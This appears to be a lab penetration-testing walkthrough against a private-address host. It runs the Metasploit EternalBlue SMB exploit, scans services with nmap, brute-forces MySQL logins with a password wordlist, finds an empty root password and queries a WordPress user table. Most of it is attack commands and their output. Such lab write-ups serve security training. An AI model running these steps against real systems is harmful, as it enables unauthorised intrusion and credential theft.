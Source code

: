 ```bash
use exploit/windows/smb/ms17_010_eternalblue
options
set RHOSTS 10.2.26.45
run
```

![](.gitbook/assets/image-20230424122329479.png)

### MySQL

```bash
nmap -sV -sC -p 3306,8585 10.2.26.45
```

```bash
3306/tcp open  mysql   MySQL 5.5.20-log
8585/tcp open  http    Apache httpd 2.2.21 ((Win64) PHP/5.3.10 DAV/2)
```

![](.gitbook/assets/image-20230424122710148.png)

- Search for MySQL exploits

```bash
searchsploit MySQL 5.5
# There are only Privilege Escalation exploits
```

- **Brute-force MySQL**

```bash
msfconsole
```

```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS 10.2.26.45
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
run
```

```bash
[+] 10.2.26.45:3306 - 10.2.26.45:3306 - Found remote MySQL version 5.5.20
[!] 10.2.26.45:3306 - No active DB -- Credential data will not be saved!
[+] 10.2.26.45:3306 - 10.2.26.45:3306 - Success: 'root:'
```

> 📌 `root` password is empty

```bash
mysql -u root -p -h 10.2.26.45
```

![](.gitbook/assets/image-20230424123437314.png)

```bash
show databases;
use wordpress;
show tables;
select * from wp_users;
```
